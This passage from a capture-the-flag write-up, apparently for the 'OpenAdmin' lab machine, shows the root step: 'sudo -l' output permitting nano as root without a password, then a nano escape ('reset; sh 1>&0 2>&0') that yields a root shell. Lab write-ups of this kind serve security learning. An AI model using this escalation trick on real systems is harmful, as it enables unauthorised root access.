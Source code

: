 ```
33 user.txt
joanna@openadmin:~$ 
```

## Root.txt

To escalate up to root we can start by seeing if there are any root commands we can execure from joanna

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$ 
```

As we can see, nano can be run as root.

to open nano as root i did `sudo -u root nano /opt/priv`. I then did ctrl + R to read from a file. and there i was able to read root.txt.

Alternativly you can do `ctrl + r` `ctrl + x` to execute a command as root. to get a shell i executed `reset; sh 1>&0 2>&0` and was then able to see the root file after navigating my shell to root.

```
# ls
root.txt
# wc -c root.txt
33 root.txt
#                    
```
